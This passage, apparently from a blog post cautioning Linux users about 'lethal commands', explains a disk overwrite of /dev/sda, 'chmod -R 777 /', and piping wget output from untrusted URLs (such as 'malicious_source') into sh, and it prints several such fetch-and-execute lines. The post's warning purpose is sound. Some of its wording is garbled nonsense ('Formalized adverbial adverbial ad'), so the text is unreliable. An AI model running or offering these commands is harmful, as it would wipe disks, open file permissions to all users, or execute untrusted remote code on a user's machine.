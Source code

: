 `=/dev/sda` – Write to the first hard disc, overwriting the file system with arbitrary garbage files.


`Chmod -R 777/` : This command does not physically damage the system in the same way as any of the other commands mentioned in each section, but it does have a security violation on the system. By running this instruction, you are allowing all machine users to read, write, and execute data on your file system. As a result, use this command with caution.


Internet can also be a very disgusting thing sometimes thus :A script from the internet and sends it to `sh`, which executes the script's contents This is risky if you don't know what the script is or if you don't trust the author – never run untrusted scripts.

`wget` – This command downloads a file. (Curl can also be used in place of wget.)

`http://malfiles.com/your_voucher` – Formalized adverbial adverbial ad This is where you can get the file.

`|` – Explicitly pipe (send) the wget command's output (the file you downloaded) to another command.

`sh` – Run the file via the sh command, which will execute it if it is a bash script.

So don’t download and run untrusted scripts from the web, even with a command.

```
wget http://malicious_source -o- | sh
```

```
wget http://example.com/something  -o- | sh -
```

```
wget http: //an-untrusted-url -o- | sh
```

Do you know of any other risky commands that recent (and experienced) Linux users can avoid using? So leave a comment and post them! I hope that this specific knowledge about the *lethal commands* prevents you from missing data from your device. Let us know whether this was helpful or not in the comments section below.
